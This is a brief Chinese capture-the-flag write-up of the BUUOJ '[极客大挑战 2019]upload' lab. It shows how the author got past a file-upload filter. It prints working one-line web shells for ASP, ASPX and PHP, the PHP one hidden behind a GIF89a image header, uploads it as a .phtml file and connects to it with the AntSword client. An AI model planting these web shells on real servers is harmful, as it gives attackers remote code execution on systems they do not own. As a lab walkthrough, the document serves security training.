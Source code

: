 ### buuoj_[极客大挑战 2019]upload

上传文件，先随便上传一个图片，但是好像对后缀有过滤

写个一句话木马抓包看看

**![](https://pic.imgdb.cn/item/610401d35132923bf8e610b6.jpg)**

php也不行，试试其他的

```
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
js脚本：	GIF89a? <script language="php">eval($_REQUEST[shell])</script>
（GIF89a 图片文件头欺骗）
```

![](https://pic.imgdb.cn/item/610403ad5132923bf8ed355d.jpg)

成功了，用蚁剑连一下

（猜测路径）

```
/upload/1.phtml
```

![](https://pic.imgdb.cn/item/610404aa5132923bf8f12215.jpg)